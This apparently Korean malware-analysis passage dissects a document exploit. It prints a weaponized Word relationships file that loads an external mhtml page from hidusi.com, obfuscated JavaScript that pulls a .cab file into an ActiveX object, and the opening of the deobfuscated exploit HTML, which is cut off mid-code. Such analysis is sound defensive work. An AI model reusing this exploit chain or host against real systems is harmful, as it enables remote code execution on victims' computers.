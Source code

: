 ```
<Relationships xmlns="<http://schemas.openxmlformats.org/package/2006/relationships>"><Relationship Id="rId8" Type="<http://schemas.openxmlformats.org/officeDocument/2006/relationships/theme>" Target="theme/theme1.xml"/><Relationship Id="rId3" Type="<http://schemas.openxmlformats.org/officeDocument/2006/relationships/webSettings>" Target="webSettings.xml"/><Relationship Id="rId7" Type="<http://schemas.openxmlformats.org/officeDocument/2006/relationships/fontTable>" Target="fontTable.xml"/><Relationship Id="rId2" Type="<http://schemas.openxmlformats.org/officeDocument/2006/relationships/settings>" Target="settings.xml"/><Relationship Id="rId1" Type="<http://schemas.openxmlformats.org/officeDocument/2006/relationships/styles>" Target="styles.xml"/><Relationship Id="rId6" Type="<http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject>" Target="mhtml:<http://hidusi.com/e8c76295a5f9acb7/side.html!x-usc:http://hidusi.com/e8c76295a5f9acb7/side.html>" TargetMode="External"/><Relationship Id="rId5" Type="<http://schemas.openxmlformats.org/officeDocument/2006/relationships/image>" Target="media/image2.wmf"/><Relationship Id="rId4" Type="<http://schemas.openxmlformats.org/officeDocument/2006/relationships/image>" Target="media/image1.jpeg"/></Relationships>

```

html 안에 취약점을 유발하는 cab 파일 위치가 존재한다.

```
XMLHttpRopen['call'](XMLHttpR, 'GET', '<http://127.0.0.1/test.cab>', ![]),
                XMLHttpRsend['call'](XMLHttpR),
                htmlfile5['Script']['document']['write']('body>');
                var htmlScript = window["Document"]['prototype']['createElement']['call'](htmlfile5['Script']['document'], 'object');
                **htmlScript['setAttribute']('codebase', '<http://127.0.0.1/test.cab#version=5,0,0,0>')**;
                htmlScript['setAttribute']('CLSID:edbc374c-5730-432a-b5b8-de94f0b57217'),
                window["HTMLElement"]["prototype"]["appendChild"]['call'](htmlfile5['Script']['document']['body'], htmlScript),

```

난독화가 풀린 html 내용은 다음과 같다.

```
<!DOCTYPE html>
<html>
    <head>
        <meta http-equiv="Expires" content="-1">
        <meta http-equiv="X-UA-Compatible" content="IE=11">
    </head>
    <body>
        <script>
            function garbage() {
                return 'garbage';
            }
            (function exploit() {
                var iframe = window["Document"]['prototype']['createElement']['call'](window["document"], 'iframe');
                try {
                    window["HTMLElement"]["prototype"]["appendChild"]['call'](window["document"]['body'], iframe);
                } catch (_0x1ab454) {
                    window["HTMLElement"]["prototype"]["appendChild"]['call'](window["document"]['documentElement'], iframe);
                }
                var htmlfile = iframe['contentWindow']['ActiveXObject'], htmlfile2 = new htmlfile('htmlfile');
                iframe['contentDocument']['open']()['close']();
                try {
                    window["HTMLElement"]["prototype"]["removeChild"]['call'](window["document"]['body'], iframe);
                } catch (_0x3b004e) {
                    window["HTMLElement"]["prototype"]["removeChild"]['call'](window["document"]['documentElement'], iframe);
```